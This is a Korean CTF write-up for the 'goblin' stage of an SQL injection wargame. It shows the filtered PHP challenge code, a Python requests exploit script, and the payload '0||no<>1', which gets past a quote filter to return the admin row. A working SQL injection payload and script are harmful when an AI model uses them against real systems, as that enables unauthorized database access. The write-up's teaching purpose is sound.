 ## GOBLIN Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");  
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");  
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("goblin");  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/goblin_e5afb87a6716708e3af46a849517afdc.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['no'] = "0||no<>1"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] GOBLIN Clear!")
```
이번 문제는 get으로 no를 받는다.  
no=1을 주면 **Hello guest** 가 뜬다.
이를 통해 guest가 1이라는 것을 알 수 있었고, no가 1이 아니면 풀릴 듯 했다.

no에 **0||no<>1**를 넣어주면 쿼리는 다음과 같이 된다.
``` php
**select id from prob_goblin where id='guest' and no=0||no<>1**
```
mysql에서 **<>** 기호는 같지 않다는 의미이기 때문에 no!=1과 같은 의미가 된다.
**$result['id']** 에 guest가 아닌 값, admin이 있기 때문에 문제가 해결된다.